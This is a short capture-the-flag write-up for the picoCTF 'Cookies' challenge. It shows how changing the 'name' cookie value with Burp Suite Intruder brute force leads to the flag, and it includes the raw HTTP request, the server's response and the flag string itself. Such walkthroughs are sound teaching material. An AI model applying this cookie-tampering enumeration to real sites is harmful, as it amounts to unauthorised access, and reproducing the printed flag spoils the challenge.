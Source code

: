# Cookies


### Desccription :
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

## Solution

As the name is 'Cookies', we can say that this is something about cookies.

when we enter some cookies name in input fild given it response something like ' I love COOKIE NAME cookies! '. we can not guess the currect cookie name, what we can do is we can change cookies value.

this website store cookies with value ' name:1 ' 

now we can change the value of that cookies ' name:1 ' manually like name:1, name:2, name:3 ..... and so on, or we can use burpsuit intruder for brutforcing this.

i use burpsuit intruder for this, in intruder set '1' as payload in ' name:1 ' and start attack. 

we can see that flag is in cookie ' name:18 '

```req
GET /check HTTP/1.1

Host: mercury.picoctf.net:27177

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:27177/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: name=18

Connection: keep-alive
```

<details>
<summary markdown="span">Response : </summary>

```

HTTP/1.1 200 OK

Content-Type: text/html; charset=utf-8

Content-Length: 1184



<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```
</details>



#### flag :   picoCTF{3v3ry1_l0v3s_c00k135_064663be}